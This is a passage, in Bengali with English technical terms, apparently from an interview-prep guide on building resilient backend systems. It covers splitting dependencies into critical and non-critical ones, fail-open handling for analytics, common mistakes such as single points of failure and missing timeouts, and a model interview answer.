  - **Critical Dependency:** পেমেন্ট গেটওয়ে, কোয়ারেন্টাইন ট্রানজেকশন ডাটাবেস। এগুলো ডাউন হলে ইউজার চেকআউট করতে পারবে না।
  - **Non-critical Dependency:** অ্যানালিটিক্স পিক্সেল, অ্যাক্টিভিটি লগস, রেকমেন্ডেশন ইঞ্জিন, নোটিফিকেশন মডিউল। এগুলো ফেইল করলে মূল বিজনেস (চেকআউট) সচল রাখতে হবে, জাস্ট ওই পার্টিকুলার ফিচারটি সাময়িকভাবে ফলব্যাক/হাইড করে দিতে হবে।
- **Fail-Open for Analytics/Logs:** অ্যানালিটিক্স সার্ভিস ডাউন থাকলে অ্যাপের কোর এপিআই কখনোই ফেইল করানো যাবে না। এটিকে ট্রাই-ক্যাচ দিয়ে সাইলেন্টলি হ্যান্ডেল করতে হবে অথবা আসিনক্রোনাস কিউতে পাঠাতে হবে।

### Common Mistakes

- **Single Point of Failure (SPOF):** আর্কিটেকচারে কোনো সার্ভিসকে এমনভাবে ডিপেন্ডেন্ট করা যাতে একটি ছোট্ট নন-ক্রিটিক্যাল এপিআই ডাউনের কারণে পুরো অ্যাপের হোমপেজে ৫০০ এরর শো করে।
- **No Timeout on Third-party APIs:** থার্ড-পার্টি এপিআই-তে টাইমআউট না রাখলে সেটি স্লো হওয়ার সাথে সাথে অ্যাপের সব রিকোয়েস্ট থ্রেড ব্লক হয়ে পুরো নোড সার্ভার ক্র্যাশ করবে।

### Interview Angle

> "Resilience নিশ্চিত করে যে আমাদের অ্যাপ্লিকেশন আংশিক ফেইলিউর সামলে টিকে থাকতে পারে। আমরা সিস্টেমে timeouts, circuit breakers, bulkheads এবং load shedding ইমপ্লিমেন্ট করি। এছাড়া ডিপেন্ডেন্সিগুলোকে ক্রিটিক্যাল ও নন-ক্রিটিক্যাল জোনে ভাগ করে নন-ক্রিটিক্যাল সার্ভিসের ফেইলিউরের সময় Graceful Degradation পলিসি ও Fallback response চালু করে জিরো-আউটেজ সিস্টেম আর্কিটেক্ট করি।"


